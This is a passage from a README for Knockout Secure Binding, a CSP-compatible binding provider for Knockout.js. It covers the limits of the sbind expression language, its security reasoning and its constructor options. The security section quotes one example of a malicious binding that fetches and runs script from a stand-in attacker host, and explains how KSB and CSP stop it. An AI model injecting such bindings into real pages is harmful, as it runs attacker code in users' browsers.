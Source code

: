 The sbind language understands both compound identifiers (e.g. `obs()[1].member()` and expressions (e.g. `a + b * c`)). A full list of operators supported is below. Check out the `spec/knockout_secure_binding_spec.js` for a more thorough list of expressions that work as expected.

There are some restrictions on the sbind language. These include:

- it will not dereference static objects so the following will not work: `{ a: 1 }[obs()]`.
- functions do not accept arguments.


Security implications
---

As mentioned, one cannot use the default Knockout binding provider when a
Content Security Policy prohibits unsafe evaluations (`eval`,
`new Function`, `setTimeout(string)`, `setInterval(string)`).

Prohibiting unsafe evaluations with a Content Security Policy substantially substantially reduces the risk
of a cross-site scripting attack. See for example [Preventing XSS with Content Security Policy](http://benvinegar.github.io/csp-talk-2013/).

By using KSB in place of the regular binding provider one can continue to use
Knockout in an environment with a Content Security Policy. This includes for example [Chrome web apps](http://developer.chrome.com/apps/contentSecurityPolicy.html).

Independent of a Content Security Policy, KSB can help prevent the execution of arbitrary code in a Knockout binding. A malicious script such as
`text: $.getScript('http://a.bad.place.example.com/a.bad.bad.thing')` could be executed in Knockout on a DOM element that is having bindings applied. However with CSP and KSB you can prevent this script from executing by/because:

1. Not including `$` as a global;
2. Functions in KSB do not accept arguments;
3. You can use a CSP white-list, which prevents accessing the (presumably unknown) host `a.bad.place`.


Options
---

The `ko.secureBindingsProvider` constructor accepts one argument,
an object that may contain the following options:


| Option | Default | Description |
| ---: | :---: | :--- |
| attribute | `data-sbind` | The binding value on attributes |
| globals | `{}` | Where variables are looked up if not on `$context` or `$data` |
| bindings | `ko.bindingHandlers` | The bindings KO will use with KSB |
| noVirtualElements | `false` | Set to `true` to disable virtual element binding |

For example, `ko.secureBindingsProvider({ globals: { "$": jQuery }})`.


Expressions
---
